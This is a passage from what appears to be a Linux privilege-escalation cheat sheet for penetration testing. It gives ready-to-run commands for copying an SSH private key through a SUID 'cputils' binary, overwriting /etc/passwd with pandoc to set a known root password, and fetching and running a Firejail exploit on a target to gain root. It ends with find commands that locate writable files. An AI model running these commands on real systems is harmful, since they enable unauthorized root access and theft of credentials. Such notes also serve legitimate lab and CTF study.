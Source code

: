 If the "cputils" is set as SUID, you can copy the sensitive file to another one. 

```sh
cputils

Enter the name of source file: /home/<user>/.ssh/id_rsa
Enter the name of target file: /tmp/id_rsa
```

### Pandoc

1. Copy **`/etc/passwd`** and Update the Root Line

```bash
cp /etc/passwd .
vim passwd
```

Then update  **"root:x:..."** to **"root:password123:..."**.

2. Replace with Our New Passwd File

Using **`pandoc`** command, we can replace the original **`/etc/passwd`** with our updated **`passwd`** file.

```sh
pandoc ./passwd -t plain -o /etc/passwd
```

Now we can login as root using new password.

```bash
su root
Password: password123
```

### Firejail

[This exploit](https://www.openwall.com/lists/oss-security/2022/06/08/10/1) is useful.

```bash
# Download it in local machine
wget https://www.openwall.com/lists/oss-security/2022/06/08/10/1 -O exploit.py

# Transfer it to target machine
wget http://<local-ip>:8000/exploit.py
python3 exploit.py &
firejail --join=<PID>
su -
```

<br />

## Writable Directories & Files

```sh
# Writable directories
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | sort -u

# System service files
find / -writable -name "*.service" 2>/dev/null
```
